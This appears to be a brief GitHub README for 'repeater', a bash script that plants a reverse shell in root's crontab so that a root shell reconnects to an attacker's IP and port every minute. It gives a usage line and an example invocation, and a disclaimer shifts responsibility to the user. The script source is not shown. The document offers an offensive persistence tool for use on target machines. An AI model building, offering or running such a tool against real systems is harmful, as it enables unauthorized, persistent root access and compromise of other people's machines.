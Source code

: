 # repeater
Repeater is a bash program that does a reverse shell in crontab, 
making the shell come back as root every minute.
This program must run in the target machine with root privilages, or with sudo.

Usage:
./repeater.sh <Ip> <Port>

Example:
./repeater.sh 10.10.10.10 9001
The author is NOT responsible for the illegal use of this program, all responsibility lies with the user.
